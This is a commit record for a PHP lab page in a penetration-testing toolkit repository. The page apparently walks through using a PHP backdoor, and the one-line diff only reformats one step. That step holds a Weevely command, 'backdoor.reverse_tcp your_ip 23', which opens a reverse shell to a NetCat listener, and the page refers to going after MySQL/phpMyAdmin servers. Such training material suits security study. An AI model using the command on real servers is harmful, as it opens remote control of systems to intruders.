

Before and after one commit to veerupandey/Penetration-Testing-Toolkit, a PHP site: page /phpbackdoor.php in a window 1280 px wide. Shown: the part 431-1111 px from the top of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
modified:   lab/phpbackdoor.php

```diff
--- a/lab/phpbackdoor.php
+++ b/lab/phpbackdoor.php
@@ -103,7 +103,7 @@ require_once 'u.php';
     </fieldset>
     <fieldset>
         <label>Step 2f.</label>Back to Weevely terminal opened in <b>step 2D</b>, after NetCat successfully listening on specific port, now  make a reverse TCP connection to our computer.
-        <code>backdoor.reverse_tcp your_ip 23</code>
+       <p><b>Type:</b> <code>backdoor.reverse_tcp your_ip 23</code></p>
     </fieldset>
     <fieldset>
         <label>Step 2g.</label>If remote  server is a web server with MySQL database and PHPMyadmin installed.Try this in your 'netcat' terminal opened in <b>step 2E</b>
```
